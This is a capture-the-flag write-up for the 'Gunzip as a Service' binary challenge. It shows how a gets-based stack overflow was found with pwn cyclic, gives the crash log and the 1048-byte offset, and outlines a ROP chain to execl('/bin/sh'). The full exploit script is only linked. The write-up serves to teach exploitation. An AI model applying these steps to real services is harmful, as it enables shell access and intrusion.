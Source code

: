 #  Gunzip as a Service

Pulling up this binary in Ghidra, it looks like `gets` is called on our `gunzip`-ed input. Because of NX being enabled on this binary, it looks like we have to send a `gzip`-ed ROP chain to the binary.

Experimenting with that theory:

```sh
pwn cyclic -n 4 1200 > cyclic.txt
<cyclic.txt >cyclic.gz gzip
<cyclic.gz ./gunzipasaservice
```

This segfaults, and if we look at the `dmesg` logs we get:

```
[39567.067921] gunzipasaservic[22302]: segfault at 6b61616d ip 000000006b61616d sp 00000000ff9fb3a0 error 14 in libc-2.29.so[f7da9000+1d000]
```

Plugging this EIP overwrite back into `pwn cyclic` gets us our offset (note that `0x6b61616d` can be encoded as the string `"maak"`):

```sh
$ pwn cyclic -n 4 -l maak
1048
```

A great ROP gadget available to us is the address of the `execl` function. Fortunately, there are also references to the strings `"/bin/sh"` and `"-c"` in the binary. These are the basic ingredients for our exploitation flow:

* Send 1048 dummy bytes, bringing us right next to where the stored EIP address is in the stack frame.
* Overwrite EIP with the address of `execl`.
* Make fake stack arguments to achieve a call of `execl("/bin/sh", "/bin/sh", "-c")`
* `gzip` our whole payload and send it to the target.

Find these steps in my solution script [here](./solve.py).
